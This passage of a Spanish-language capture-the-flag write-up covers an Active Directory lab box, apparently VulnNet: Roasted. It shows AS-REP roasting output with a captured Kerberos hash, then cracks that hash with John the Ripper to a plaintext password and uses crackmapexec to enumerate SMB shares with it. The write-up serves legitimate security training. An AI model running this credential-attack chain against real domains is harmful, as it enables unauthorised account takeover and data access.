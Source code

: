 ```bash
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:397653e349e8aa321ca54c57cac83e8b$a539de770ec1456964fee7db0661866a35ab20195270d40e4856d9d983c4cd2dc36ba21e90ddeed1866c7fd5e8357630d2c37def9dd2f220e8ac540aa1fab2c159c0a4b6ce282ac3e6cf0b16b9869ceacd9c298048db8fa5a2e1d21b674742403edf5d90934b283552b3bd45f08ef6ff66da85a61aae7736b31a3c8a9e3bd66586fef3ad83124bedb0a4b54f057de94d327f9d1c1bf40e70a4e387ff6e2eed20ace26313cdf1b3db7a11f3eacd3d48b79a703c72ef18d9d06c3b7d001237689f5b9977545f6ce20c43f3c4c88a9500b49c1cb5f80c823021f843ce67fd7a80a29be76697d48b04f726334530c0f05488145f0da0fc8e
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for j-goldenhand
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for j-leet
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### John The Ripper

Utilizando john vamos a romper el hash que previamente obtuvimos con la enumeración a kerberos con el objetivo de ver la contraseña en texto claro:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)
1g 0:00:00:12 DONE (2021-08-29 20:40) 0.07917g/s 251657p/s 251657c/s 251657C/s tj080790..tj071190
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

*Credenciales:*
* t-skid
* tj072889*

### CME

Tenemos credenciales la idea sería comprobar en que carpeta compartida el usuario que obtuvimos tiene permiso, esto lo podemos hacer con:

```bash
crackmapexec smb 10.10.45.157 -u "t-skid" -p "tj072889*" --shares
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\t-skid:tj072889* 
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] Enumerated shares
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  NETLOGON        READ            Logon server share 
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  SYSVOL          READ            Logon server share 
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

